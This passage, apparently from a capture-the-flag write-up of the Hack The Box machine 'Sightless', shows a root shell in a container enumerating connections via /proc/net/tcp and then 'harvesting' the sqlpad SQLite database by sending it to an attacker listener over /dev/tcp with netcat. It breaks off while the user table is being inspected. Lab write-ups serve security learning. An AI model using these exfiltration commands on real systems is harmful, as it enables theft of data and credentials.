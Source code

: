 ```bash
root@c184118df0a6:/home# awk 'function hextodec(str,ret,n,i,k,c){
>     ret = 0
>     n = length(str)
>     for (i = 1; i <= n; i++) {
>         c = tolower(substr(str, i, 1))
>         k = index("123456789abcdef", c)
>         ret = ret * 16 + k
>     }
>     return ret
> }
> function getIP(str,ret){
>     ret=hextodec(substr(str,index(str,":")-2,2));
>     for (i=5; i>0; i-=2) {
>         ret = ret"."hextodec(substr(str,i,2))
>     }
>     ret = ret":"hextodec(substr(str,index(str,":")+1,4))
>     return ret
> }
> NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp
Local - Remote
0.0.0.0:3000 - 0.0.0.0:0
[...]
```

### Harvesting


#### Sqlite database

```bash
root@c184118df0a6:/var/lib/sqlpad# ls -latr
total 200
drwxr-xr-x 1 root root   4096 Mar 12  2022 ..
drwxr-xr-x 2 root root   4096 Aug  9 11:17 cache
drwxr-xr-x 2 root root   4096 Oct  3 14:49 sessions
drwxr-xr-x 4 root root   4096 Oct  3 16:54 .
-rw-r--r-- 1 root root 188416 Oct  3 16:55 sqlpad.sqlite
```

Download the **sqlite** database

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ nc -lvnp 444 > loot/sqlpad.sqlite
listening on [any] 444 ...
```

```bash
root@c184118df0a6:/var/lib/sqlpad# cat sqlpad.sqlite > /dev/tcp/10.10.14.75/444
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ sqlite3 loot/sqlpad.sqlite
SQLite version 3.46.0 2024-05-23 13:25:27
Enter ".help" for usage hints.
sqlite> .headers on
sqlite> .mode columns
sqlite> .tables
batches              query_acl            statements
cache                query_tags           users
connection_accesses  schema_version       vw_query_history
connections          service_tokens
queries              sessions
sqlite> .schema users
```